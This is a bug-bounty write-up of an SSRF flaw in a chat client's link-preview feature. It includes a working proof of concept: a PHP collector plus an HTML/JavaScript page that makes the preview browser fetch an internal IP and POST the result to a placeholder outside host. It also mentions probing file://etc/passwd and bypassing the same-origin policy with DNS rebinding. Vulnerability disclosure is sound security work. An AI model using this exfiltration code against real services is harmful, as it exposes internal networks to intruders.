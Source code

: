 # [bugbounty]A Simple SSRF

This is a private program<br>
First of all, its web assets have several subdomains. After I tested it for a while, I plan to check out the mac client.<br>
After installation, sign up for login, then I see a chat interface.<br>
Send a URL<br>
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/1.png)
It seems to preview the url, return a title and favicons<br>
I use my server ip to test. Then received<br>
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t3.png)
Found that is the browser's ua header<br>
Then I tested it http://127.0.0.1 https://127.0.0.1 file://etc/passwd ....<br>
Tested a lot of common internal ip<br>
But<br>
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t1.png)
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t2.png)
No effect<br>
Then I tried the subdomain brute force, as well as some asset discovery sites to find internal ip<br>
Until there is an ip<br>
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t4.png)
Seems to be successful<br>
Then I quickly submitted the vulnerability<br>
But<br>
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t5.png)
As written above, we can only get a very small amount of content.<br>
After testing, I found that it will also execute js because it is browser ua<br>

  

 

    <html><p id='d1'></p>
    <script>
        function get(url) {
            try {
                var req = new XMLHttpRequest();
                req.open('GET', url, false);
                req.send(null);
                if(req.status == 200)
                    return req.responseText;
            } catch(err) {
            }
            return null;
        }
        var role = get('https://google.com');
        document.getElementById("d1").innerHTML=role.length;
    </script></html>
    
    
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t6.png)<br>
Can successfully get Google returns the content length<br>
Does not seem to be blocked by Same Origin Policy<br>
Then we can get any internal network content<br>
**poc**<br>
xxx.php


    <?php
    file_put_contents("save.txt", $_POST['cc'] . "\n", FILE_APPEND);
    ?>
    
poc.html


    <html><p id='d1'></p>
    <script>
    function get(url) {
        try {
            var req = new XMLHttpRequest();
            req.open('GET', url, false);
            req.send(null);
            if(req.status == 200)
                return req.responseText;
        } catch(err) {
        }
        return null;
    }
    function post(url,content){
        var req = new XMLHttpRequest();
        req.open("POST", url, true);
        var formData = new FormData();
        formData.append("cc", content);
        req.send(formData);
    }
    var role = get('https://Internal ip');
    post('https://xxxxxxxxxxx.com/xxx.php',escape(role));
    document.getElementById("d1").innerHTML=role.length;
    </script></html>
    
Then check save.txt<br>
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t8.png)
Url decoding<br>
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t9.png)

**If Same Origin Policy blocks**<br>
Bypass Same Origin Policy with DNS-rebinding to retrieve  Internal server .<br>
![enter image description here](https://user-images.githubusercontent.com/5891788/53449161-87e47300-3a19-11e9-8e3c-7b7bdfeaab6b.png)

Details from https://github.com/mpgn/ByP-SOP<br>
Finally ![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t11.png)
